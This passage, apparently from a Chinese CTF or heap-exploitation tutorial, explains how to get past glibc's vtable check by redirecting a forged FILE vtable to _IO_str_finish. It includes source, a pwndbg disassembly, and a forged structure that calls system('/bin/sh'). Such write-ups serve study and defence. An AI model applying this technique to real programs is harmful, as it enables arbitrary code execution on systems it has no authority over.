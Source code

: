 ```c
  return vtable;
}
```
但是规定的范围内还有其他的虚表，可以把伪造的vtable指向这个范围的其他位置，从而调用其他虚表内的函数。
```c
#define _IO_USER_BUF 1
_IO_str_finish (_IO_FILE *fp, int dummy)
{
//-----------------------exploit-----------------------------------
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);
//-----------------------exploit-----------------------------------
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```
比如我们可以把原`__OBVRFLOW的位置`，指向`_IO_str_finish`,从而绕过范围检查，此时在执行`__IO_OVERFLOW`时,实际执行了`_IO_str_finish`,进入`_IO_str_finish`后会调用`(((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base)`,所以在伪造fp时注意`_s._free_buffer`,`fp->_IO_buf_base`的伪造就可以控制程序流.

当然并非一定要把OVERFLOW覆盖成_IO_str_finish，其他函数也有类似`(*((_IO_strfile *) fp)->_s._free_buffer) (old_buf);``(char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);`只不过需要绕过很多检查。而`_IO_str_finish`只需绕过`!(fp->_flags & _IO_USER_BUF)`即可。
```shell
pwndbg> disassemble _IO_str_finish
Dump of assembler code for function _IO_str_finish:
   0x00007ffff7a8f6b0 <+0>:	push   rbx
   0x00007ffff7a8f6b1 <+1>:	mov    rbx,rdi
   0x00007ffff7a8f6b4 <+4>:	mov    rdi,QWORD PTR [rdi+0x38]
   0x00007ffff7a8f6b8 <+8>:	test   rdi,rdi
   0x00007ffff7a8f6bb <+11>:	je     0x7ffff7a8f6c8 <_IO_str_finish+24>
   0x00007ffff7a8f6bd <+13>:	test   BYTE PTR [rbx],0x1
   0x00007ffff7a8f6c0 <+16>:	jne    0x7ffff7a8f6c8 <_IO_str_finish+24>
   0x00007ffff7a8f6c2 <+18>:	call   QWORD PTR [rbx+0xe8]
   0x00007ffff7a8f6c8 <+24>:	mov    QWORD PTR [rbx+0x38],0x0
   0x00007ffff7a8f6d0 <+32>:	mov    rdi,rbx
   0x00007ffff7a8f6d3 <+35>:	xor    esi,esi
   0x00007ffff7a8f6d5 <+37>:	pop    rbx
   0x00007ffff7a8f6d6 <+38>:	jmp    0x7ffff7a8e130 <__GI__IO_default_finish>
End of assembler dump.
pwndbg> p *(struct _IO_strfile_*)0x55c55d3994f0
$3 = {
  _sbf = {
    _f = {
      _flags = 0, 
      _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
      _IO_read_base = 0x7f9142052510 "", 
      _IO_write_base = 0x0, 
      _IO_write_ptr = 0x1 <error: Cannot access memory at address 0x1>, 
      _IO_write_end = 0x0, 
      _IO_buf_base = 0x7f9141e19e57 "/bin/sh", 
      ...
      _mode = 0, 
      ...
    }, 
    vtable = 0x7f9142050798
  }, 
  _s = {
    _allocate_buffer = 0x0, 
    _free_buffer = 0x7f9141cd23a0 <__libc_system>
  }
}

```